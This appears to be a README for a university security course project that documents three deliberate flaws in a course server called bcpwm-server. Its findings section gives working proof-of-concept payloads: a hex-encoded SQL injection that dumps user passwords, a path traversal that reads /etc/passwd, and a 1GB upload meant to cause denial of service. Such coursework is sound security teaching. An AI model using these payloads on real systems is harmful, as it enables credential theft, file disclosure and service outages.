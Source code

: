 # csci4271-proj2
This project demonstrates vulnerabilities in a server application (bcpwm-server) running on port 443. The instructions guide users on setting up the server, interacting with its database, and identifying three security vulnerabilities. Each finding includes a proof of concept exploit and its expected outcome.

# Program Description
bcpwm-server is a multi-functional server application designed to support user registration, rule creation, and file management via various HTTP routes. The server uses an SQLite database to store user and rule data, and it interacts with the file system for file operations. However, due to insufficient input validation and insecure programming practices, the server contains vulnerabilities that attackers can exploit to:

1. Perform SQL Injection to extract sensitive data.
2. Execute Path Traversal attacks to access unauthorized files.
3. Cause a Denial of Service (DoS) by uploading excessively large files.

- Let url be the path to access 443
- "enter" means putting the string in the search bar in web browser
- lines without "enter" is input in terminal

Running the program:
- git clone...
- ./install.sh
- make
- sudo ./bcpwm-server
- -> Change to another terminal, navigate to the same directory

Setting up the database
- Adding a user with hexmail = "1", hexpass = "2":
- enter "< url >/init_client/31/32"
- Confirm user added:
- enter "< url >/confirm-client/31/32/<token>" (the token is from the program running sudo)
- Adding a rule
- enter "< url >/post-rule/init/admin/1"

# Finding 1: Inject SQL to extract all user credentials
- Expected result: List of all users and passwords
- payload=$(echo "' UNION SELECT user, password FROM user_pw_table;--" | xxd -p)
- curl -k "< url >/init_client/${payload}/31"

# Finding 2: Inject '../' into the file path parameter to read unauthorized files
- Expected result: Contents of /etc/passwd
- payload=$(echo "../../etc/passwd" | xxd -p)
- enter "< url >/get_rule/${payload}"

# Finding 3: Generate a large file (1GB) and upload it
- Expected result: Server becomes unresponsive or logs indicate resource exhaustion.
- dd if=/dev/zero of=largefile.txt bs=1M count=1024
- curl -X POST -F "file=@largefile.txt" -k "<url>/post-rule/init/validsite/validuser"

